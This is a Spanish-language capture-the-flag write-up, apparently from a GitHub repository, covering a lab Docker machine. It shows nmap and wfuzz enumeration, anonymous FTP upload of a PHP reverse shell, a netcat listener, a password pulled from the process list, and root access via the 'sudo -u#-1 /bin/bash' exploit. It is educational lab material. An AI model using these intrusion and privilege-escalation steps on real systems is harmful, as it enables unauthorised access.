 # CTF-1
*Capture the flag* donde se trabaja la enumeración y fingerprinting, conexión FTP, php, *reverse shell*, *netcat*, escalada de privilegios... 
<div>
  <img src="https://img.shields.io/badge/-Kali-5e8ca8?style=for-the-badge&logo=kalilinux&logoColor=white" />
  <img src="https://img.shields.io/badge/-Nmap-6933FF?style=for-the-badge&logo=nmap&logoColor=white" />
  <img src="https://img.shields.io/badge/-Wfuzz-4285F4?style=for-the-badge&logo=wfuzz&logoColor=white" />
  <img src="https://img.shields.io/badge/-Netcat-F5455C?style=for-the-badge&logo=netcat&logoColor=white" />
  <img src="https://img.shields.io/badge/-PHP-777BB4?style=for-the-badge&logo=php&logoColor=white" />
  <img src="https://img.shields.io/badge/-Bash-4EAA25?style=for-the-badge&logo=gnubash&logoColor=white" />
  <img src="https://img.shields.io/badge/-Docker-2496ED?style=for-the-badge&logo=docker&logoColor=white" />
</div>

## Objetivo

Explicar la realización del siguiente _Capture the flag_ dentro del mundo educativo. Se pretenden conseguir dos archivos (_flags_), uno dentro del entorno del usuario básico y el otro en el entorno _root_. Para ello, se deberá penetrar en la máquina, pasar al usuario básico y realizar una escalada de privilegios.

## Que hemos aprendido?

- Realizar fingerprinting y enumeración de puertos y enumeración web.
- Realizar *reverse shell* con *php*.
- Poner puertos en escucha.
- Escalada de privilegios.

## Herramientas utilizadas

- *Kali Linux*.
- Enumeración: *nmap*, *WFUZZ*.
- Penetración: código php de *Pentest Monkey*, *netcat*, lenguaje *bash*, *web 'exploit-database'*. 

## Steps

### Enumeración y fingerprinting

La máquina a vulnerar está desplegada dentro de un *Docker*, para encontrar este desde el terminal de Kali, se busca su direción IP con el comando <code>ipconfig</code>. En la respuesta se averigua que su dirección IP es la 172.17.0.1, por lo que la máquina víctima debe estar en la red 172.17.0.X. Utilizando la herramienta __nmap__ puedo hacer un barrido para encontrar el host que estoy buscando, para hacerlo más rápido no compruebo puertos.  

<code>nmap -sn 172.17.0/24</code>  

![427138515-a9e766f5-48f7-4510-8ca1-05af72817794](https://github.com/user-attachments/assets/383ace90-df56-4fbd-b715-5f5f726caf92)

Ya tengo localizada la máquina en la dirección 172.17.0.2, ahora con la ayuda de __nmap__ se buscan los puertos de la máquina que se encuentran abiertos y las versiones que corren en ellos. Le indico que no haga descubrimiento de *hosts* mediante ‘-Pn’. Además, utilizo el script *default* que viene con *nmap* para que me muestre las vulnerabilidades que pueda encontrar.  

<code>nmap -p- -Pn -sV -O 172.17.0.2 -sC</code>  

![427141463-8c876a8a-464d-48a5-9298-e522cc7764ee](https://github.com/user-attachments/assets/4621faeb-9571-4a84-a347-830406e729f3)

El comando nos devuelve 3 puertos TCPs abiertos:
- En el puerto 21 corre la versión *vsftpd* 3.0.3 del servicio FTP.
- En el puerto 22 corre la versión *Openssh* 7.6p1 del servicio SSH en un sistema *Ubuntu*.
- En el puerto 80 corre la versión *Apache* httpd 2.4.29 del servicio HTTP en un sistema *Ubuntu*.

Los *scripts* muestran una serie de vulnerabilidades entre la que destaca la posibilidad de iniciar sesión vía FTP con una cuenta *anonymous*, por lo que no sería necesaria una contraseña. Una vez dentro, encuentro el directorio ‘html’ y dentro de este, dos archivos: ‘index.php’ e ‘index.html.bak’. Estos archivos hacen referencia al servidor de *Apache* que hay montado en el puerto 80. Puesto que tengo acceso a esta carpeta y permisos de escritura, subiré un archivo *php* con una *reverse shell* para poder tomar el control de la máquina.  
Para la enumeración web se utiliza la herramiente __WFUZZ__ que encontrará los posibles archivos y directorios que pertenezcan a la IP. Con la opción ‘-c’ se muestran los valores con diferentes colores, con ‘-hc 404’ evito que salgan por pantalla todos aquellos intentos que no han encontrado nada. El parámetro ‘-t’ sirve para indicar la velocidad que ejecuta el comando, he decidido ponerle 1 para que analice todos los posibles ficheros con el inconveniente de tardar más. El parámetro ‘-w’ indica la lista a partir de la cual se va a hacer el *fuzzing* y el parámetro ‘-u’ es para la URL de la página destino. Añadiendo la palabra *FUZZ* al final, indico que la palabra de la lista que analiza, la busque en esa posición de la URL.  

<code>wfuzz -c --hc 404 -t 1 -w /usr/share/seclists/Discovery/Web-Content/raft-small-files.txt -u http://172.17.0.2/FUZZ</code>  

![427168994-9e23fdc9-fc67-41f4-8fb6-e99e683ececb](https://github.com/user-attachments/assets/f49331ae-24e6-4ffc-8009-b237acb12157)

*Kali* contiene una serie de listas (diccionarios) con los nombres más típicos de archivos o directorios web, en la imagen se prueba con archivos. De entre los archivos devueltos, los alcanzables son ‘index.php’ y ‘index.html.bak’. Confirmando lo encontrado por la vía FTP.

### Vulnerabilidades explotadas
Una vez hecha la enumeración, me dispongo a explotar la vulnerabilidad FTP encontrada, donde no se pide contraseña alguna para iniciar sesión con el usuario *anonymous*. Me dirijo al directorio '/html' y utilizo el comando <code>mget</code> para descargar el ‘index.php’ que a efectos prácticos no es muy útil, pues únicamente contiene el mensaje que se muestra en la dirección IP de la máquina.  

![image](https://github.com/user-attachments/assets/4faf7f88-613e-41ec-8ff6-5eda4ae6c6cc)

<code>ftp 172.17.0.2</code>  
<code>cd html</code>  
<code>mget index.php</code>  

Opto por subir vía FTP un archivo *php* con el ataque y alojarlo en la misma carpeta '/html' donde se encuentran los otros archivos. El ataque consiste en una _reverse shell_ escrita en *php* obtenida de la plataforma de *github*, subida por [*pentestmonkey*](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php). Modifico la dirección IP en el código por la mía (10.0.2.15) y el puerto deseado (1234 por defecto), el resto lo dejo igual. Para subir este archivo, debo estar situado en el directorio donde lo tengo guardado (‘/home/kali’) y una vez conectado vía FTP, voy al directorio donde lo quiero guardar ‘/html’. El comando utilizado es <code>put</code> seguido del nombre del archivo.  

<code>put php-reverse-shell.php</code>  

Lo siguiente es, desde mi terminal, poner el puerto especificado en el *script* en escucha (1234). Para hacer esto hago uso de la herramienta **netcat**, le indico la opción de verbosidad y que busque direcciones IP numéricas.  

<code>nc -lvnp 1234</code>  

Por último, me dirijo a la dirección URL del archivo (http://172.17.0.2/php-reverse-shell.php) y espero que se produzca la conexión. Al conectarme, puedo ver qué usuario soy con un <code>whoami</code> que me devuelve ‘www-data’. Además, se observa que pertenezco al grupo de mismo nombre, ‘www-data’. Este es el típico usuario que se obtiene al acceder vía web.

![427516314-1fedb1bb-98dc-42bc-8bf2-305f47898d5d](https://github.com/user-attachments/assets/0c79c87e-6701-4cd3-803f-a60e1ed377d6)

Una vez dentro sólo debo buscar la *flag*, la cual encuentro en el directorio '/home/hacker/'.  
**Flag**: 244cdf401e667cca77b8228066096985.  

![427518574-dbd4ffa4-ee6c-4fc1-bc14-0c9b12819537](https://github.com/user-attachments/assets/e4653076-ac0f-489b-9b16-4711d87d9005)

Para conseguir la escalada de privilegios, me fijo en que anteriormente he descubierto la existencia del usuario *hacker*. Así pues, voy a buscar procesos lanzados por este usuario (o en los que haya sido mencionado).  

<code>ps aux | grep hacker</code>  

Como respuesta, obtengo un proceso ejecutado por el usuario *root* en estado de espera, el cual consiste en un *script* llamado ‘myhacker.sh’ y al que parece que se le pasa una contraseña ‘tefeme_86_pass’.
Intento **pivotar** al usuario *hacker* probando con esta contraseña y después de conseguirlo lo compruebo mediante el comando <code>id</code>.

![427528819-4a47603f-e039-4a50-9422-fbf93042874c](https://github.com/user-attachments/assets/ae914b8f-a229-4e4f-85ef-b9ae2b797ae6)

El siguiente paso es buscar archivos desde el directorio raíz con el **bit SUID** activado que permitan ser ejecutados con permisos *root* (find / -perm -4000). Además, los mensajes erróneos que devuelva, los mandamos a la dirección '/dev/null' para que no se muestren por pantalla (2>/dev/null). Como respuesta aparecen una serie de binarios, de entre los cuales me llama la atención '/usr/local/lib/sudo' pues no se encuentra en '/usr/bin', como cabría esperar.

<code>find / -perm -4000 2>/dev/null</code>

Haciendo una búsqueda por la web [*exploit-database*](https://www.exploit-db.com/exploits/47502), encuentro una vulnerabilidad que fue resuelta a partir de la versión 28. Para explotarla voy a abrir una *shell* con un usuario inexistente, indicándole el *uid* -1; lo cual devolverá un 0 y lo confundirá con el usuario *root*.

<code>sudo -u#-1 /bin/bash</code>

![427654438-64cc9af0-e429-4b07-84af-e68e1d1e62dd](https://github.com/user-attachments/assets/a8620f84-59cb-49f6-92e6-2f6f2be4a425)

Una vez soy usuario *root*, puedo dirigirme a su directorio propio ('/root') y encontrar la segunda *flag*.

![427657084-6ec0d4b1-335f-4d86-9e8d-b4bb3f033649](https://github.com/user-attachments/assets/bc748004-0c88-4ce4-88a6-5a0b7fd45dcb)

**Flag**: 648d390c021ce7cfde2f95ea3fcd71ec.
